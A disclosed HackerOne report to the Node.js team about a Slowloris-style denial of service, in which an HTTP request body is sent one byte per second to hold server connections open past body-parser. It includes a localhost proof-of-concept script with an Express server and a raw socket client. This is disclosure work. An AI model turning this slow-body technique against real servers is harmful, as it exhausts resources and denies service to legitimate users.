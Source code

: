 # Slowloris, body parsing

## Report Details
- **Report ID**: 799072
- **URL**: https://hackerone.com/reports/799072
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-02-18T21:52:59.796Z
- **Disclosed**: 2020-10-17T19:25:57.436Z

## Reporter
- **Username**: underflow0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** [add summary of the vulnerability]
Attackers can cause a Denial of Service by sending HTTP request body data extremely slowly to keep a connection open by maintaining activity, and use resources over an extended period.

**Description:** [add more details about this vulnerability]
Body data is sent one byte at a time, slowly, in a HTTP request. The connection stays open, hogging resources. There is no builtin feature that can make this trigger a timeout, as long as the bytes are sent at an interval lower than the `server.timeout` value if it is set. May not technically be a Node.js bug since it doesn't handle parsing of the body, but the typically body parsing library (e.g. https://www.npmjs.com/package/body-parser) does not implement any feature to mitigate the vulnerability.


## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. Start a HTTP server and set the server timeout to 2 seconds.
  2. Add a library that parses the request body.
  2. Open a connection to the server.
  3. Send a HTTP header.
  4. Send the body, 1 byte per second.

## Impact: [add why this issue matters]
See summary.

## Supporting Material/References:

Code to reproduce
```
const bodyParser = require('body-parser');
const express = require('express');
const net = require('net');
const http = require('http');

async function run() {
    const expressApp = express();

    expressApp.use(bodyParser.json());

    expressApp.use(async (req, res) => {
        res.send({body: req.body});
    });

    const server = http.createServer(expressApp);

    setInterval(() => {
        console.log(server.connections);
    },  1000);

    server.keepAliveTimeout = 2000;
    server.timeout = 2000;

    await new Promise(resolve => {
        server.listen(3000, '127.0.0.1', () => {
            resolve();
        });
    });

    const client = new net.Socket();

    const length = 5000;

    const msg = `GET / HTTP/1.1
Host: localhost:3000
Accept: */*
Content-Type: application/json
Content-Length: ${length}

["`;

    client.connect(3000, '127.0.0.1', async function () {
        client.write(msg);

        for (let i = 0; i < length - 4; i++) {
            await new Promise(resolve => {
                setTimeout(resolve, 1000);
            });

            client.write('' + (i % 10));
        }

        client.write('"]');
    });
}

run();
```

## Impact

Attackers can cause a Denial of Service by sending HTTP request body data extremely slowly to keep a connection open and use resources over an extended period.

## Attachments
No attachments
